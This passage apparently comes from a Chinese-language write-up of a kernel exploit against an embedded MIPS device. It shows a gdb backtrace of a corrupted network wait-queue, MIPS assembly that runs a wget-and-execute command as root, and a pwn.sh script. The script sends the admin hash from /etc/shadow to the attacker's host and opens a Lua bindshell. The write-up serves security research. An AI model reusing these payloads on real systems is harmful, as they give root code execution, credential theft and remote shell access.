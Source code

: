 ```
$1 = {lock = {{rlock = {raw_lock = {<No data fields>}}}}, task_list = {next = 0xdeadbee1,
    prev = 0xbaadc0d1}}

(gdb) bt
#0  __wake_up_common (q=0x85173480, mode=1, nr_exclusive=1, wake_flags=1, key=0xc1)
    at kernel/sched/core.c:3375
#1  0x80141ea8 in __wake_up_sync_key (q=<optimized out>, mode=<optimized out>,
    nr_exclusive=<optimized out>, key=<optimized out>) at kernel/sched/core.c:3450
#2  0x8045d2d4 in tcp_prequeue (skb=0x87eb4e40, sk=0x851e5f80) at include/net/tcp.h:964
#3  tcp_v4_rcv (skb=0x87eb4e40) at net/ipv4/tcp_ipv4.c:1736
#4  0x8043ae14 in ip_local_deliver_finish (skb=0x87eb4e40) at net/ipv4/ip_input.c:226
#5  0x8040d640 in __netif_receive_skb (skb=0x87eb4e40) at net/core/dev.c:3341
#6  0x803c50c8 in pcnet32_rx_entry (entry=<optimized out>, rxp=0xa0c04060, lp=0x87d08c00,
    dev=0x87d08800) at drivers/net/ethernet/amd/pcnet32.c:1199
#7  pcnet32_rx (budget=16, dev=0x87d08800) at drivers/net/ethernet/amd/pcnet32.c:1212
#8  pcnet32_poll (napi=0x87d08c5c, budget=16) at drivers/net/ethernet/amd/pcnet32.c:1324
#9  0x8040dab0 in net_rx_action (h=<optimized out>) at net/core/dev.c:3944
#10 0x801244ec in __do_softirq () at kernel/softirq.c:244
#11 0x80124708 in do_softirq () at kernel/softirq.c:293
#12 do_softirq () at kernel/softirq.c:280
#13 0x80124948 in invoke_softirq () at kernel/softirq.c:337
#14 irq_exit () at kernel/softirq.c:356
#15 0x8010198c in ret_from_exception () at arch/mips/kernel/entry.S:34
```  
  
一旦func调用指针，我就可以控制执行流，并执行一个简单的内核有效负载，该负载利用call_usermodehelper_setup  
/call_usermodehelper_exec以 root 身份执行用户模式命令。它从攻击者机器上的侦听 HTTP 服务器上提取 shell 脚本并执行它。  
```
arg0: .asciiz "/bin/sh"
arg1: .asciiz "-c"
arg2: .asciiz "wget http://{ip_local}:8000/pwn.sh && chmod +x pwn.sh && ./pwn.sh"
argv: .word arg0
      .word arg1
      .word arg2
envp: .word 0
```  
  
pwn.sh shell 脚本只是泄露了的哈希值，并打开一个bindshell（为Thomas Chauchefoin和Kevin Denis的 Lua oneliner欢呼） ，攻击者可以连接到（如果内核还没有崩溃😳）：admin  
shadow  
```
#!/bin/sh
export LPORT=31337
wget http://{ip_local}:8000/pwd?$(grep -E admin: /etc/shadow)
lua -e 'local k=require("socket");
  local s=assert(k.bind("*",os.getenv("LPORT")));
  local c=s:accept();
  while true do
    local r,x=c:receive();local f=assert(io.popen(r,"r"));
    local b=assert(f:read("*a"));c:send(b);
  end;c:close();f:close();'
```  
  